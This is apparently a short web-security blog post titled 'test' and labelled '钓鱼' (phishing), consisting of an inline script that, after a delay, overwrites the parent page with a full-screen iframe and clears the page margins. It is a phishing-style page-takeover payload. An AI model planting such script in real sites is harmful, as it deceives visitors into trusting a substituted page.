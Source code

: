 ```yaml
---
title: test
date: 2017-1-4 8:50:30
tags: Web安全
toc: true
---
```


钓鱼
<script>
setTimeout(function(){
parent.document.writeln("<iframe style=\"margin:0px;padding:0px;height:100%;width:100%;\" src=\"https://www.baidu.com\" frameBorder=0 scrolling=no></iframe>");
setTimeout(function(){
document.getElementsByTagName("body")[0].setAttribute("style","margin:0px;");},100);
setTimeout(function(){
parent.document.getElementsByTagName("body")[0].setAttribute("style","margin:0px;");},100);
},1000);
</script>


